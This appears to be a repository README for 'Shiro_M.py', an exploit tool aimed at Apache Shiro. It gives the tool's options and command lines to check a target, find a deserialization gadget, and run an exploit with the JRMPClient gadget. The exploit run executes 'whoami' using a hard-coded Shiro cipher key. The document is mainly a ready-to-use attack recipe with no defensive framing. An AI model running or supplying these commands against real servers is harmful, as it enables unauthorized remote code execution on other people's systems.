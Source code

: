 # 0、Usage

`usage: Shiro_M.py [-h] -u URL [-t TYPE] [-g GADGET] [-c COMMAND] [-k KEY]

-OPTIONS-:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url.
  -t TYPE, --type TYPE  Check or Exploit. Check:1, Find gadget:2, Exploit:3
  -g GADGET, --gadget GADGET
                        gadget
  -c COMMAND, --command COMMAND
                        gadget command
  -k KEY, --key KEY     CipherKey`

# 1、检测

​    python Shiro_M.py -u http://127.0.0.1:8080/login

# 2、Found gadget

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 2 -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 3、Exp

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 3 -g "JRMPClient" -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 注：

ysoserial比较大